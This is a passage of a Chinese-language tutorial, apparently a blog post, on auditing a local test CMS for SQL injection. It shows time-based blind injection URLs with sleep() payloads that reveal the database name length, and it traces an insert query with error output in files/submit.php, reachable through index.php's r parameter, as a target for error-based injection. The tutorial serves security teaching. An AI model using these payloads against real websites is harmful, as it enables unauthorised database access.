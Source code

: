 ```plain
可以结合布尔注入来进行测试
127.0.0.1:8081/web/mysql/news.php?id=1 and if(length(database())=5,sleep(5),0)
没有延迟
```

![1645190098350-666dcdfd-acbf-4154-bb3b-17a7fb0332a6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923284-722998444.png)

```plain
127.0.0.1:8081/web/mysql/news.php?id=1 and if(length(database())=11,sleep(5),0)
延迟5秒
根据两个数据包返回不同，就可以判断出数据库的长度为11位。
```

![1645190167797-b38e9a11-2634-48c3-8797-a2fd7a7d9f9e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923238-1719348489.png)

- 查询-select-xhcms-布尔盲注

```plain
SELECT column_name,column_name FROM table_name;
```

- 插入-insert-xhcms-报错盲注

```plain
INSERT INTO table_name (列1, 列2,...) VALUES (值1, 值2,....)
全局搜索insert关键字，发现关键代码上的文件files/submit.php
```

![1645193650364-7c7e60b2-8122-438c-8045-5361ef87baf9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132921892-1078755586.png)

```plain
对应的表interaction
```

![1645193859010-3b3c8b22-2b2d-49bd-b2b6-c831eafc6fce.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132921887-131881965.png)

```plain
在insert下面发现关键性代码：@mysql_query($query) or die('新增错误：'.mysql_error());
这个时候可以采用报错注入。
那么应该怎么触发这个文件呢？（files/submit.php）
主要看index.php文件。
<?php
//单一入口模式
error_reporting(0); //关闭错误显示
$file=addslashes($_GET['r']); //接收文件名
$action=$file==''?'index':$file; //判断为空或者等于index
include('files/'.$action.'.php'); //载入相应文件
?>

在index.php中，接受r参数，包含一个'files/'.$action.'.php'文件，只要让action=submit就可以触发这个文件。
构造访问地址：127.0.0.1:8087/index.php?r=submit
```

![1645194339504-a4b6086e-23bd-485c-9501-6e9a0d11dbea.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922854-1371475921.png)
